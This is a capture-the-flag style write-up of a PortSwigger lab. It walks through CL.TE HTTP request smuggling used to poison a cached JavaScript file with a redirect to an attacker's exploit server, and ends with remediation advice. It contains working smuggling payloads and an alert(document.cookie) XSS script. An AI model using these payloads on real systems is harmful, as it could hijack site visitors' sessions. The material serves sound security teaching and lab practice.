## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to perform web cache poisoning
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert `document.cookie`.

---

## 1. Fundamental Concepts

Web cache poisoning via HTTP request smuggling represents an extraordinarily severe, composite exploitation primitive. It combines transport-layer request desynchronization (CL.TE) with application-layer caching mechanics. By weaponizing an Open Redirect gadget and inducing desynchronization on a shared upstream connection, an adversary forces the front-end reverse proxy's caching engine to store a malicious redirect response under the cache key of a universally loaded static resource (such as `/resources/js/tracking.js`). Once poisoned, this attack transforms an ephemeral, single-connection vulnerability into persistent, zero-click, site-wide Stored Cross-Site Scripting (XSS) executing in the browsers of all visitors.

### 1.1. The CL.TE Request Smuggling Primitive
* **Header Precedence Conflict:** Under HTTP/1.1 (RFC 7230 Section 3.3.3), when a request contains both `Content-Length` (CL) and `Transfer-Encoding` (TE) headers, the Transfer-Encoding header takes precedence. However, vulnerabilities arise when edge proxies fail to support chunked encoding or prioritize Content-Length, while upstream backend servers correctly adhere to chunked framing.
* **Transport Desynchronization:** The front-end reverse proxy reads the request length from `Content-Length`, forwarding both the header block and the declared body bytes downstream over a persistent TCP socket. The backend server parses the stream using `Transfer-Encoding: chunked`, interpreting the chunk terminator (`0\r\n\r\n`) as the conclusion of Request #1. The remainder of the payload is left stranded in the backend TCP receive buffer, where it is prepended to the next incoming request.

### 1.2. Web Cache Architecture & Cache Key Resolution
* **Cache Key Composition:** Reverse proxies deploy caching layers (e.g., Varnish, Nginx Cache, Cloudflare) to offload backend traffic by storing responses for cacheable resources. When a client requests a resource, the cache evaluates a deterministic **Cache Key**—typically composed of the HTTP Method, Host header, and Request Path (e.g., `GET 0ae700...web-security-academy.net /resources/js/tracking.js`).
* **Cache Lifecycle & Headers:** If the requested key exists in the cache, the proxy serves the cached response (`X-Cache: hit`) without contacting the backend. If the key is absent (`X-Cache: miss`), the proxy forwards the request to the backend, caches the returned response according to `Cache-Control` headers (e.g., `max-age=30`), and serves it to the requester.

### 1.3. The Host-Header-Dependent Redirect Gadget
* **Dynamic Redirection Flaw:** Many modern web applications implement post-navigation or pagination endpoints (such as `/post/next?postId=2`) that redirect users to adjacent content. In insecure implementations, the backend dynamically constructs the redirection URL using the client-supplied `Host` header:
  ```http
  GET /post/next?postId=2 HTTP/1.1
  Host: attacker-exploit-server.net

  HTTP/1.1 302 Found
  Location: https://attacker-exploit-server.net/post?postId=3
  ```
* **Exploit Weaponization:** When this gadget is reached via a smuggled request with a manipulated Host header, the backend produces an Open Redirect pointing to an external server controlled by the attacker.

> [!IMPORTANT]
> **CRITICAL ARCHITECTURAL CONFLUENCE:** Request Smuggling allows an attacker to dictate WHAT response the backend generates. Web Cache Poisoning allows the attacker to dictate WHERE that response is stored. By smuggling an off-site redirect and pairing it with a cacheable JavaScript request, the attacker permanently overwrites legitimate site scripts with malicious payloads.

---

## 2. Attack Model & Architecture

The attack model illustrates how the adversary weaponizes CL.TE desynchronization, open redirection, and web caching to achieve persistent code execution on victim browsers.

```text
[Attacker Client (Burp Repeater)]
    │
    │ (1) Sends Weaponized CL.TE Smuggling Request:
    │     POST / HTTP/1.1
    │     Host: target.net
    │     Content-Length: 180
    │     Transfer-Encoding: chunked
    │
    │     0\r\n\r\n
    │     GET /post/next?postId=2 HTTP/1.1
    │     Host: exploit-server.net
    │     Content-Length: 10
    │     \r\n\r\nx=1
    ▼
[Front-end Proxy & Web Cache Engine]
    │ Reads Content-Length: 180 -> Forwards entire frame downstream
    ▼
[Back-end Web Server]
    │ 1. Evaluates Transfer-Encoding: chunked -> Sees terminating chunk '0'
    │    Returns HTTP 200 OK for POST /
    │ 2. Smuggled request remains stranded in backend TCP receive buffer:
    │    GET /post/next?postId=2 HTTP/1.1\r\nHost: exploit-server.net...
    ▼
[Attacker Dispatches Target Resource Request]
    │ (2) Immediately requests cacheable JavaScript:
    │     GET /resources/js/tracking.js HTTP/1.1
    │     Host: target.net
    ▼
[Back-end Stream Concatenation]
    │ Backend reads next socket bytes, appending request to 'x=1':
    │   GET /post/next?postId=2 HTTP/1.1\r\nHost: exploit-server.net...\r\nx=1GET /resources/js/tracking.js...
    │ Backend evaluates: GET /post/next?postId=2 with Host: exploit-server.net!
    │ Backend responds:
    │     HTTP/1.1 302 Found
    │     Location: https://exploit-server.net/post?postId=3
    ▼
[Front-end Cache Engine Poisons Cache Key!]
    │ Proxy associates HTTP 302 Found with:
    │   Cache Key: (target.net, /resources/js/tracking.js)
    │ Stores redirect in cache with max-age=30!
    ▼
[Victim User Browses Blog Homepage]
    │ (3) Victim browser loads HTML -> Requests <script src="/resources/js/tracking.js">
    │ (4) Front-end Cache serves POISONED response:
    │     HTTP/1.1 302 Found (X-Cache: hit)
    │     Location: https://exploit-server.net/post?postId=3
    │ (5) Victim browser follows redirect -> Requests /post?postId=3 from Exploit Server!
    │ (6) Exploit Server serves: alert(document.cookie)
    │ (7) Victim browser executes XSS payload -> Account Compromised!
```

### 2.1. Attack Lifecycle & Data Flow Breakdown
1. **Phase 1 - Open Redirect Gadget Identification:** The attacker tests `/post/next?postId=2`, verifying that the backend issues an HTTP 302 Found redirect whose Location header reflects the client's Host header.
2. **Phase 2 - Cacheability Verification:** The attacker inspects `/resources/js/tracking.js`, confirming that the front-end caches the response for 30 seconds (`Cache-Control: max-age=30`, `X-Cache: hit`).
3. **Phase 3 - CL.TE Desynchronization Confirmation:** Using Burp Repeater, the attacker confirms CL.TE desynchronization by transmitting a chunked probe to `/resources/js/tracking.js`, eliciting an HTTP 404 response on the subsequent request.
4. **Phase 4 - Exploit Server Preparation:** On the Exploit Server, the attacker stages a malicious JavaScript payload at path `/post` configured with `Content-Type: application/javascript` and body: `alert(document.cookie)`.
5. **Phase 5 - Cache Poisoning Execution:** The attacker transmits the weaponized CL.TE payload followed immediately by a request for `/resources/js/tracking.js`. The front-end receives the backend's 302 redirect and caches it under `tracking.js`.
6. **Phase 6 - Victim Exploitation & Lab Resolution:** When simulated victim users load any page on the blog, their browsers request `tracking.js`, receive the cached 302 redirect, fetch the exploit script, and execute `alert(document.cookie)`.

### 2.2. Root Causes
* **Inconsistent Header Parsing:** The front-end proxy prioritizes Content-Length while the backend server prioritizes Transfer-Encoding, violating RFC 7230 Section 3.3.3 and allowing request stream desynchronization.
* **Unsafe Host-Header-Based Redirection:** The backend dynamically derives redirection targets directly from the incoming Host header without validating against an allowed domain whitelist.
* **Permissive Cache Ingestion:** The front-end cache stores HTTP 302 redirection responses for static JavaScript endpoints without verifying that the response Content-Type matches the expected script MIME type.
* **Shared Upstream Connection Pools:** Multiple client sessions are multiplexed across persistent backend TCP connections without transport-level session isolation.

---

## 3. Vulnerability Exploitation

The vulnerability was systematically verified, weaponized, and executed using Burp Suite Repeater through an 8-stage methodology.

### 3.1. Analyzing the Dynamic Open Redirect Gadget
Reconnaissance began by examining the blog pagination functionality. Intercepting a "Next post" request (`GET /post/next?postId=2 HTTP/2`) revealed an HTTP 302 Found redirect to `/post?postId=3`:

```http
GET /post/next?postId=2 HTTP/2
Host: 0ae7006804253ba580281cb400ab00de.web-security-academy.net

HTTP/2 302 Found
Location: https://0ae7006804253ba580281cb400ab00de.web-security-academy.net/post?postId=3
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```



This confirmed that manipulating the Host header on `/post/next` would allow an attacker to redirect incoming clients to an arbitrary external origin.

### 3.2. Auditing Web Cache Behavior on Static Assets
The target application was inspected to identify universally loaded static assets. Requests for `/resources/js/tracking.js` revealed explicit caching behavior:
* **Cache Lifetime:** `Cache-Control: max-age=30` indicates that responses are cached for 30 seconds.
* **Cache Status:** `X-Cache: hit` (and `X-Cache: miss`) confirms that the front-end actively caches this asset.





Because `/resources/js/tracking.js` is imported by every page on the blog via `<script src="/resources/js/tracking.js"></script>`, poisoning its cache entry guarantees site-wide execution.

### 3.3. Probing for CL.TE Desynchronization
To test for request smuggling, Burp Repeater was configured to **HTTP/1.1** with **"Update Content-Length" disabled**. A CL.TE probe was dispatched to `/resources/js/tracking.js` with `Content-Length: 31` and `Transfer-Encoding: chunked`:

```http
POST /resources/js/tracking.js HTTP/1.1
Host: 0ae7006804253ba580281cb400ab00de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
abc: tuki
```

The initial request returned `HTTP/1.1 200 OK` (the tracking.js content), while the backend socket buffer retained `GET /x HTTP/1.1`:



An immediate follow-up request was dispatched over the connection. The backend concatenated `abc: tuki` to the incoming request line, returning `HTTP/1.1 404 Not Found`:



### 3.4. Verifying Smuggled Host-Header Redirection
A test payload was crafted to verify that the open redirect could be triggered via a smuggled request. The smuggled request targeted `/post/next?postId=2` with an arbitrary Host header (`Host: dlnhtu4nkl3t`):

```http
POST /resources/js/tracking.js HTTP/1.1
Host: 0ae7006804253ba580281cb400ab00de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1
Host: dlnhtu4nkl3t
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

The request was transmitted to prime the backend socket buffer:



The subsequent request immediately returned `HTTP/1.1 302 Found` with `Location: https://dlnhtu4nkl3t/post?postId=3`:



This verified that an attacker can force arbitrary off-site redirections through smuggled requests.

### 3.5. Staging the Malicious Payload on the Exploit Server
On the PortSwigger Exploit Server (`https://exploit-0aa700c104343bd380981b8e01630081.exploit-server.net`), a malicious resource was created to serve the XSS payload:
* **Endpoint:** File: `/post`
* **Headers:** Head: `HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8`
* **Script Payload:** Body: `alert(document.cookie)`



### 3.6. Weaponizing the Request Smuggling Payload
The weaponized exploit was constructed in Burp Repeater. The outer request targeted `POST / HTTP/1.1` with `Transfer-Encoding: chunked` and `Content-Length: 180`, smuggling a redirect to the exploit server:

```http
POST / HTTP/1.1
Host: 0ae7006804253ba580281cb400ab00de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 180
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1
Host: exploit-0aa700c104343bd380981b8e01630081.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

The request was transmitted. The backend completed Request #1 with `HTTP/1.1 200 OK` and held the smuggled redirect pending in the TCP socket:



### 3.7. Executing Web Cache Poisoning on tracking.js
Immediately following the weaponized request, a request for `/resources/js/tracking.js` was dispatched:

```http
GET /resources/js/tracking.js HTTP/1.1
Host: 0ae7006804253ba580281cb400ab00de.web-security-academy.net
Connection: close
```

The backend concatenated this request with `x=1`, evaluated the smuggled `/post/next` query, and responded with an HTTP 302 Found redirect to the exploit server:

```http
HTTP/1.1 302 Found
Location: https://exploit-0aa700c104343bd380981b8e01630081.exploit-server.net/post?postId=3
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 0
```



Because the front-end cache stored this 302 response under the cache key of `/resources/js/tracking.js`, the cache was officially poisoned for the duration of `max-age=30`.

### 3.8. Verifying Victim Compromise & Laboratory Resolution
The Exploit Server's Access Log was inspected. The log recorded an incoming request from the automated victim bot, proving that the victim's browser loaded the poisoned script and executed the payload:

```http
10.0.4.59 2026-10-04 08:59:19 +0000 "GET /post?postId=3 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36"
```



The laboratory platform detected successful execution of `alert(document.cookie)` in the victim's session, displaying the official completion banner:


---

## 4. Remediation & Prevention

Remediating web cache poisoning via request smuggling requires architectural defenses across protocol normalization, caching rules, and application-layer redirection handlers.

### 4.1. Strict Protocol Normalization & Dual-Header Rejection
* **RFC 7230 Compliance:** Enforce RFC 7230 Section 3.3.3 strictly at the reverse proxy layer. If an incoming request contains both Content-Length and Transfer-Encoding headers, the proxy must reject it immediately with an HTTP 400 Bad Request.
* **Header Normalization:** Strip or normalize Transfer-Encoding headers at the edge reverse proxy before routing requests to backend application servers. Ensure both tiers speak an identical, unambiguous dialect of HTTP.

### 4.2. Hardening Web Cache Configuration
* **Disallow Caching of Static Redirects:** Configure caching engines to never cache 3xx redirection responses for static asset paths (.js, .css, .svg, .png). Redirection caching should be strictly limited to canonical document URLs.
* **Content-Type Verification:** Enforce strict MIME-type validation. If a requested URI expects an `application/javascript` resource, the cache must refuse to store responses returning non-script content types or redirects.

### 4.3. Application-Layer Host Header Validation
* **Domain Whitelisting:** Never construct absolute redirection URLs directly from the client-supplied Host or X-Forwarded-Host headers. Web applications must validate the Host header against a strict, static whitelist of authorized domain names.
* **Relative Redirections:** Utilize relative redirection paths (e.g., `Location: /post?postId=3`) rather than absolute URLs whenever redirecting users within the same origin.

### 4.4. End-to-End Modern Transport (HTTP/2 & HTTP/3)
* **Protocol Modernization:** Deploy end-to-end HTTP/2 or HTTP/3 from the edge reverse proxy to the backend application servers. In binary-framed protocols, request boundaries are strictly delineated by frame length fields, permanently eliminating text-based request smuggling vulnerabilities.
